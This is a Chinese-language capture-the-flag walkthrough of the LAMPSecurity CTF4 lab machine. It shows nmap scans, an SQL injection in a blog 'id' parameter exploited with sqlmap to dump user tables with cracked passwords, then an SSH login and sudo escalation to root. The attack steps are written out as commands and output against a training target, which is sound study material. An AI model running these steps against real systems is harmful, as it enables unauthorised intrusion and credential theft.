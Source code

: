 # LAMPSecurity: CTF4

> 本机 IP: 11.11.11.11
>
> 目标 IP: 11.11.11.12
>
> 参考 [wp](https://www.bilibili.com/video/BV1ue4y1S7Zm/) [ctf4_instructions.pdf](#)

## 扫描

```sh
$ sudo nmap --min-rate 10000 -p- 11.11.11.12
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
80/tcp  open   http
631/tcp closed ipp

$ sudo nmap -sT -sV -O -p22,25,80,631 11.11.11.12
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
631/tcp closed ipp

$ sudo nmap --script=vuln -p22,25,80,631 11.11.11.12
```

## web&内网

<!-- 搜索框还有xss -->

访问 http://11.11.11.12:80, 在 Blog 中找到页面 URL 为 http://11.11.11.12/index.html?page=blog&title=Blog&id=2

尝试 sql 注入, 加单引号, `http://11.11.11.12/index.html?page=blog&title=Blog&id=2'`, 显示报错 `Warning: mysql_fetch_row(): supplied argument is not a valid MySQL result resource in /var/www/html/pages/blog.php on line 20`, 存在 sql 注入

```sh
$ sqlmap -u 'http://11.11.11.12/index.html?page=blog&title=Blog&id=2' --dbs --dump --batch
available databases [6]:
[*] calendar
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+

# ssh dstevens:ilike2surf 登录成功
$ ssh -o HostKeyAlgorithms=ssh-rsa -o KexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 dstevens@11.11.11.12
[dstevens@ctf4 ~]$ sudo -l
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 ~]$ sudo /bin/bash
[root@ctf4 ~]#
```
